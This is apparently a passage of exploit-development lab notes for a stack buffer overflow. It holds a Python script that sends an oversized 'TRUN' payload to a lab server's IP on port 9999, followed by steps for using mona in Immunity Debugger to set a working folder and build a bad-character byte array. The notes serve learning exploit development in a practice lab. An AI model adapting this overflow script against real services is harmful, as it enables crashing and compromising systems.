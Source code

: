 ```
#!/usr/bin/python3

import sys, socket
from time import sleep

shellcode = "A" * 2003 + "B" * 4

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = "TRUN /.:/" + shellcode

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()

```

## Mona

- create a folder called `mona` in `C:\`
- declare in Immunity Debugger that you want ***mona*** to save data in that folder
- `!mona config -set workingfolder c:\mona`
- now we can generate a bad characters list with mona
- `!mona bytearray -cpb "\x00"` generating a payload list for us that excludes the null byte
- if you go to your mona folder you'll see that it puts a nice text file in it
- you can copy it and paste it into your script, don't need to go out and look for bad chars on websites
- mona also creates a .bin file which is handy when we compare this array to find bad chars

![https://github.com/encryptedninja/command-center/raw/master/buffer_overflow/images/17-mona-bad-chars-byte-array.png](https://github.com/encryptedninja/command-center/raw/master/buffer_overflow/images/17-mona-bad-chars-byte-array.png)
